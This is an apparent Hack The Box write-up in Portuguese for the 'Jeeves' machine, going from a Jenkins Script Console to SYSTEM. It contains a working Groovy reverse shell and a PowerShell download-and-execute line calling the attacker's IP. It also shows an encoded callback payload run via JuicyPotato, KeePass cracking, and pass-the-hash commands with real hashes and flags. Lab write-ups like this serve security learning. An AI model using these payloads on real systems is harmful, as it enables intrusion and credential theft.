




# Writeup jeeves - PT/BR

## Scan

```bash
# Nmap 7.92 scan initiated Sat Dec 31 17:22:17 2022 as: nmap -sVC -Pn -v -T5 -p 80,135,445,50000 -oN fullnmap.txt 10.129.228.112
Nmap scan report for 10.129.228.112
Host is up (0.16s latency).

PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
|_http-title: Ask Jeeves
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-01-01T03:22:32
|_  start_date: 2023-01-01T03:18:34
|_clock-skew: mean: 5h00m02s, deviation: 0s, median: 5h00m02s

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Dec 31 17:23:05 2022 -- 1 IP address (1 host up) scanned in 48.41 seconds
```

## Enumeration & Exploitation

    Com o scan podemos ver que o host possui duas portas de servidores web. Após um tempo fazendo fuzzing, podemos encontrar o diretório necessário na porta 50000.

```bash
ffuf -u http://10.129.101.104:50000/FUZZ/ -w /usr/share/seclists/Discovery/Web-Content/some_directories.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.101.104:50000/FUZZ/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/some_directories.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

askjeeves               [Status: 200, Size: 11521, Words: 570, Lines: 16, Duration: 289ms]
:: Progress: [119841/119841] :: Job [1/1] :: 252 req/sec :: Duration: [0:07:50] :: Errors: 3 ::
```

    Com o fuzzing feito, podemos ver que o diretório que temos acesso é um jenkins. Podemos usá-lo para pegar nossa reverse shell.

    Para isso acessamos o menu "Manage Jenkins" e depois encontramos a opção "Script Console".





    O script console do jenkins usa Groovy Script. Podemos Usar uma reverse shell em groovy para conseguir uma shell no host. 

**Referência:** [PayloadsAllTheThings/Reverse Shell Cheatsheet.md at master · swisskyrepo/PayloadsAllTheThings · GitHub](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#groovy-alternative-1) 

>  Payload Groovy - Método 1

```groovy
String host="10.10.14.60";
int port=4242;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

    O método anterior nos fornece shell CMD, porém não suporta uma shell com powershell. Para obtermos uma shell com powershell, podemos usar uma shell do nishang e usar um comando de download e execução da shell.

> Comando para Download - Método 2

```groovy
String result = "powershell iex(new-object net.webclient).downloadstring('http://10.10.14.60/Invoke-PowerShellTcp.ps1')".execute().text
println result
```



    Uma vez com a shell, podemos ir até o diretório do usuário e pegar a flag.

> User Flag

```powershell
PS C:\Users\kohsuke\Desktop> type user.txt
e3232272596fb47950d59c4cf1e7066a
```

## Privilege Escalation

    Essa máquina possue dois métodos de Privilege Escalation.

### Método 1

    Para Privilege Escalation, podemos notar que a máquina possui o "SeImpersonatePrivilege" habilitado. Com isso, podemos usá-lo para fazer privilege escalation (Potato Attacks).

```powershell
PS C:\Users\kohsuke\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```

    Ao baixar o JuicyPotato para a máquina alvo, podemos criar um arquivo .bat com um comando em powershell que nos dará uma reverse shell como system.

> Baixar arquivo JuicyPotato.exe e .bat

```powershell
PS C:\Users\kohsuke\Desktop> powershell -command iwr -Uri http://10.10.14.60/JuicyPotato.exe -OutFile JuicyPotato.exe
PS C:\Users\kohsuke\Desktop> ls


    Directory: C:\Users\kohsuke\Desktop


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----         1/2/2023  12:36 AM         347648 JuicyPotato.exe                                                       
-ar---        11/3/2017  11:22 PM             32 user.txt
PS C:\Users\kohsuke\Desktop> powershell -command iwr -Uri http://10.10.14.60/shell.bat -OutFile shell.bat
PS C:\Users\kohsuke\Desktop> ls


    Directory: C:\Users\kohsuke\Desktop


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----         1/2/2023  12:36 AM         347648 JuicyPotato.exe                                                       
-a----         1/2/2023  12:39 AM           1687 shell.bat                                                             
-ar---        11/3/2017  11:22 PM             32 user.txt
```

> Arquivo .bat - Shell Villain

```batch
└─$ cat shell.bat 
powershell -e UwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgACQAUABTAEgATwBNAEUAXABwAG8AdwBlAHIAcwBoAGUAbABsAC4AZQB4AGUAIAAtAEEAcgBnAHUAbQBlAG4AdABMAGkAcwB0ACAAewAkAHMAPQAnADEAMAAuADEAMAAuADEANAAuADYAMAA6ADgAMAA4ADAAJwA7ACQAaQA9ACcAYgBhAGEAYQA4ADgAMwBhAC0AMAA2AGUANgAwADQAYQAyAC0AOABkADIAYQA2AGYANABjACcAOwAkAHAAPQAnAGgAdAB0AHAAOgAvAC8AJwA7ACQAdgA9AEkAbgB2AG8AawBlAC0AUgBlAHMAdABNAGUAdABoAG8AZAAgAC0AVQBzAGUAQgBhAHMAaQBjAFAAYQByAHMAaQBuAGcAIAAtAFUAcgBpACAAJABwACQAcwAvAGIAYQBhAGEAOAA4ADMAYQAvACQAZQBuAHYAOgBDAE8ATQBQAFUAVABFAFIATgBBAE0ARQAvACQAZQBuAHYAOgBVAFMARQBSAE4AQQBNAEUAIAAtAEgAZQBhAGQAZQByAHMAIABAAHsAIgBBAHUAdABoAG8AcgBpAHoAYQB0AGkAbwBuACIAPQAkAGkAfQA7AGYAbwByACAAKAA7ADsAKQB7ACQAYwA9ACgASQBuAHYAbwBrAGUALQBSAGUAcwB0AE0AZQB0AGgAbwBkACAALQBVAHMAZQBCAGEAcwBpAGMAUABhAHIAcwBpAG4AZwAgAC0AVQByAGkAIAAkAHAAJABzAC8AMAA2AGUANgAwADQAYQAyACAALQBIAGUAYQBkAGUAcgBzACAAQAB7ACIAQQB1AHQAaABvAHIAaQB6AGEAdABpAG8AbgAiAD0AJABpAH0AKQA7AGkAZgAgACgAJABjACAALQBuAGUAIAAnAE4AbwBuAGUAJwApACAAewAkAHIAPQBJAG4AdgBvAGsAZQAtAEUAeABwAHIAZQBzAHMAaQBvAG4AIAAkAGMAIAAtAEUAcgByAG8AcgBBAGMAdABpAG8AbgAgAFMAdABvAHAAIAAtAEUAcgByAG8AcgBWAGEAcgBpAGEAYgBsAGUAIABlADsAJAByAD0ATwB1AHQALQBTAHQAcgBpAG4AZwAgAC0ASQBuAHAAdQB0AE8AYgBqAGUAYwB0ACAAJAByADsAJAB4AD0ASQBuAHYAbwBrAGUALQBSAGUAcwB0AE0AZQB0AGgAbwBkACAALQBVAHIAaQAgACQAcAAkAHMALwA4AGQAMgBhADYAZgA0AGMAIAAtAE0AZQB0AGgAbwBkACAAUABPAFMAVAAgAC0ASABlAGEAZABlAHIAcwAgAEAAewAiAEEAdQB0AGgAbwByAGkAegBhAHQAaQBvAG4AIgA9ACQAaQB9ACAALQBCAG8AZAB5ACAAKABbAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEUAbgBjAG8AZABpAG4AZwBdADoAOgBVAFQARgA4AC4ARwBlAHQAQgB5AHQAZQBzACgAJABlACsAJAByACkAIAAtAGoAbwBpAG4AIAAnACAAJwApAH0AIABzAGwAZQBlAHAAIAAwAC4AOAB9AH0AIAAtAFcAaQBuAGQAbwB3AFMAdAB5AGwAZQAgAEgAaQBkAGQAZQBuAA==
```

> Executando JuicyPotato

```powershell
PS C:\Users\kohsuke\Desktop> ./JuicyPotato.exe -t * -p shell.bat -l 4444
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 4444
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
PS C:\Users\kohsuke\Desktop>
```

    Com o ataque executado, conseguimos uma shell system.



    Para pegarmos a flag, precisamos enumerar o ADS (Alternate Data Stream - https://www.malwarebytes.com/blog/news/2015/07/introduction-to-alternate-data-streams ).

> Enum powershell

```powershell
JEEVES\JEEVES$> Get-Item -path hm.txt -stream *
FileName: C:\Users\Administrator\Desktop\hm.txt

Stream                   Length                                                                                                                                                              
------                   ------                                                                                                                                                              
:$DATA                       36                                                                                                                                                              
root.txt                     34
```

> Enum CMD

```powershell
JEEVES\JEEVES$> cmd /c dir /R
Volume in drive C has no label.
 Volume Serial Number is 71A1-6FA1                                                                                                                                                           

 Directory of C:\Users\Administrator\Desktop                                                                                                                                                 

11/08/2017  09:05 AM    <DIR>          .                                                                                                                                                     
11/08/2017  09:05 AM    <DIR>          ..                                                                                                                                                    
12/24/2017  02:51 AM                36 hm.txt                                                                                                                                                
                                    34 hm.txt:root.txt:$DATA                                                                                                                                 
11/08/2017  09:05 AM               797 Windows 10 Update Assistant.lnk                                                                                                                       
               2 File(s)            833 bytes                                                                                                                                                
               2 Dir(s)   2,667,593,728 bytes free
```

> Root Flag - Using CMD and Powershell

```powershell
JEEVES\JEEVES$> Get-Content -path hm.txt -stream root.txt
afbc5bd4b615a60648cec41c6ac92530
JEEVES\JEEVES$> cmd /c "more < hm.txt:root.txt"
afbc5bd4b615a60648cec41c6ac92530
```

### Método Dois

    Para Privilege Escalation, podemos notar que a máquina possui um arquivo chamado "CEH.kdbx" localizado em "C:\Users\kohsuke\Documents". Esse tipo de arquivo é muito utilizado pelo KeePass e é geralmente referenciado a uma database do KeePass.

    Por ser um arquivo binário, podemos utilizar a conversão do conteúto para base64 e depois copiarmos e colarmos em nossa maquina local.

```powershell
PS C:\Users\kohsuke\Documents> [convert]::ToBase64String((Get-Content -path "CEH.kdbx" -Encoding byte))
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
PS C:\Users\kohsuke\Documents>
```

    Com o arquivo recriado em nossa máquina local, podemos usar o **keepass2john** para pegarmos o hash e quebrá-lo no John.

```bash
┌──(kali㉿kali)-[~/…/hackthebox/machines/to-do/jeeves]
└─$ keepass2john file > hash
                                                                                                                                                                                             
┌──(kali㉿kali)-[~/…/hackthebox/machines/to-do/jeeves]
└─$ john -w=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
No password hashes left to crack (see FAQ)
                                                                                                                                                                                             
┌──(kali㉿kali)-[~/…/hackthebox/machines/to-do/jeeves]
└─$ john --show hash                             
file:moonshine1

1 password hash cracked, 0 left
```

**Observação:** Como já havia quebrado o hash antes, eles estava com a senha quebrada já armazenada.

    Com a senha, podemos usá-la pra conectar na DB usando **Kpcli**.

```bash
┌──(kali㉿kali)-[~/…/hackthebox/machines/to-do/jeeves]
└─$ kpcli --kdb=file        
Provide the master password: *************************

KeePass CLI (kpcli) v3.8.1 is ready for operation.
Type 'help' for a description of available commands.
Type 'help <command>' for details on individual commands.

kpcli:/>
```

    Logado na DB podemos notar que existe algumas entradas armazenadas, porém uma delas é um hash NTLM. Ao Tentarmos a técnica de PTH (PassTheHash - [Lateral Movement: Pass the Hash Attack - Hacking Articles](https://www.hackingarticles.in/lateral-movement-pass-the-hash-attack/) ) conseguimos acesso como Administrador.

> Obtendo HASH DB

```bash
kpcli:/> ls
=== Groups ===
CEH/
kpcli:/> cd CEH
kpcli:/CEH> ls
=== Groups ===
eMail/
General/
Homebanking/
Internet/
Network/
Windows/
=== Entries ===
0. Backup stuff                                                           
1. Bank of America                                   www.bankofamerica.com
2. DC Recovery PW                                                         
3. EC-Council                               www.eccouncil.org/programs/cer
4. It's a secret                                 localhost:8180/secret.jsp
5. Jenkins admin                                            localhost:8080
6. Keys to the kingdom                                                    
7. Walmart.com                                             www.walmart.com
kpcli:/CEH> show -f 0

Title: Backup stuff
Uname: ?
 Pass: aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
  URL: 
Notes: 

kpcli:/CEH>
```

> PTH usuário Administrator

```bash
┌──(kali㉿kali)-[~/…/hackthebox/machines/to-do/jeeves]
└─$ cme smb 10.129.15.186 -u Administrator -H aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
SMB         10.129.15.186   445    JEEVES           [*] Windows 10 Pro 10586 x64 (name:JEEVES) (domain:Jeeves) (signing:False) (SMBv1:True)
SMB         10.129.15.186   445    JEEVES           [+] Jeeves\Administrator:aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 (Pwn3d!)
```

> Shell Usuário Administrator -  exemplo 1

```bash
┌──(kali㉿kali)-[~/…/hackthebox/machines/to-do/jeeves]
└─$ pth-winexe -U Administrator%'aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00' //10.129.15.186 cmd.exe       
E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

> Shell Usuário Administrator - exemplo 2

```bash
python3 psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 Jeeves/Administrator@10.129.15.186
Impacket v0.10.1.dev1+20220606.123812.ac35841f - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on 10.129.15.186.....
[*] Found writable share ADMIN$
[*] Uploading file FxOsJIZr.exe
[*] Opening SVCManager on 10.129.15.186.....
[*] Creating service lwpq on 10.129.15.186.....
[*] Starting service lwpq.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```
